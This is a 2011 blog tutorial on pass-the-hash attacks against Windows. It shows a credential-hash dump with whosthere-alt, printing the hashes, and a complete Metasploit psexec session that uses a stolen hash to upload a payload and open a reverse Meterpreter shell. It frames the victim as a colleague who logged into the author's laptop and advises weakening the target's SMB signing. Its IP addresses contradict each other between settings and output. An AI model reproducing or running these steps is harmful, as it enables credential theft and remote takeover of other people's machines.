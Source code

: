 ```yaml
---
layout: blog-post
title: "Pass the Hash Exploitation on Windows"
excerpt: Pass the Hash Exploitation on Windows
disqus_id: /2011/08/16/passthehash/
location: Delhi, India
time: 10:00 PM
categories:
- Hacking
- Windows
- Pass The Hash
---
```


#{{ page.title }}

A Windows 2000/NT/XP/Vista/7 system can be compromised with a technique called [pass the Hash](http://en.wikipedia.org/wiki/Pass_the_hash). For us to exploit this technique, we must know some basica.

In a Windows based authentication such as NTLM or Kerberos, the password is never sent as cleartext. Instead the password is transformed into a hash(LM or NTLM Hash) and then sent to the server. The server then compares this hash against the stored hash and grants/denies the access.

There are two types of hashes:

* [LM hash, LanMan, or LAN Manager hash](http://en.wikipedia.org/wiki/LM_hash): It is the obsolete hashing algorithm. Refer to the link to see how it is computed.
* NTLMv2 Hash: This is latest hashing method used on Windows 7/Vists/2008 systems.

Whenever a domain user logs on to the client computer, the hash of its password is stored on the client so that user can be authenticated in future even if the domain controller is not available. There are two types of caching, which is mentioned [here](http://support.microsoft.com/kb/913485).

Now lets suppose, somebody has used your office laptop to log in and access some intranet based sites. Then that user's password hash is stored in your system.

You can retrieve these hashes using a utility such as [PSH Toolkit](http://oss.coresecurity.com/projects/pshtoolkit.htm). It contains a utility **whosthere** which can dump the hashes.

{% highlight text %}
C:\Documents and Settings\madhur\Desktop\pshtoolkit_v1.4\whosthere-alt>whosthere-alt.exe
WHOSTHERE-ALT v1.1 - by Hernan Ochoa (hochoa@coresecurity.com, hernan@gmail.com)
 - (c) 2007-2008 Core Security Technologies
This tool lists the active LSA logon sessions with NTLM credentials.
use -h for help.
the output format is: username:domain:lmhash:nthash

madhur:BACKTRACK:123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
BACKTRACK$:WORKGROUP:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
{% endhighlight %}

Once you have grabbed the hash, you can anytime compromise the victim's computer using metaspoilt's psexec module, if you know the IP address, which is not difficult considering an intranet evnironment.

{% highlight text %}
msf exploit(psexec) > use windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.13
RHOST => 192.168.0.13
msf exploit(psexec) > set LHOST 192.168.0.14
LHOST => 192.168.0.14
msf exploit(psexec) > set SMBDomain backtrack
SMBDomain => backtrack
msf exploit(psexec) > set SMBUser madhur
SMBUser => madhur
msf exploit(psexec) > set SMBPass 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
SMBPass => 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
msf exploit(psexec) > exploit

[*] Started reverse handler on 192.168.0.13:4444 
[*] Connecting to the server...
[*] Authenticating to 192.168.0.14:445|backtrack as user 'madhur'...
[*] Uploading payload...
[*] Created \wttVwMnA.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (nkgYMOZy - "MrDoYCoO")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \wttVwMnA.exe...
[*] Sending stage (749056 bytes) to 192.168.0.14
[*] Meterpreter session 6 opened (192.168.0.13:4444 -> 192.168.0.14:1035) at 2011-08-16 22:16:47 +0530

meterpreter > 
{% endhighlight %}

If you have trouble exploiting the target system, then it might be some security enabled your Administrator. For ex

* Simple file sharing is disabled (Windows XP)

* Windows UAC drops all the Administrator privileges from the SAT (Security Access Token) for REMOTE connections that are using LOCAL accounts. This restriction prevents all remote administrative functions such as connecting to administrative shares (C$, etc) installing services or launching a new process (psexec)

* "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" on the target systems and setting the value of "RequireSecuritySignature" to "0".

References:
* [http://oss.coresecurity.com/pshtoolkit/doc/index.html](http://oss.coresecurity.com/pshtoolkit/doc/index.html)
* [https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html](https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html)

